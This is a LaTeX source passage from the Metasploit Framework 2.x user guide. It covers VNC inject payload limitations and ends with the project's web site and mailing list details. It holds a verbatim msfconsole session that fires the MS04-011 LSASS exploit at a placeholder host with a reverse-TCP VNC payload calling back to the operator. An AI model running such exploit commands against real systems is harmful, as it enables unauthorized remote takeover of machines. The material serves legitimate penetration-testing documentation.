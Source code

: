 \documentclass{report}
\begin{document}
\par
As of the 2.4 release, there are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}


\section{Web Site}
\par
The metasploit.com web site is the first place to check for updated modules and
new releases. This web site also hosts the Opcode Database and a decent shellcode
archive.  

\section{Mailing List}
\par
You can subscribe to the Metasploit Framework mailing list by sending a blank
email to framework-subscribe[at]metasploit.com. This is the preferred way to
submit bugs, suggest new features, and discuss the Framework with other users.
The mailing list archive can be found online at:
\url{http://metasploit.com/archive/framework/threads.html}
\end{document}
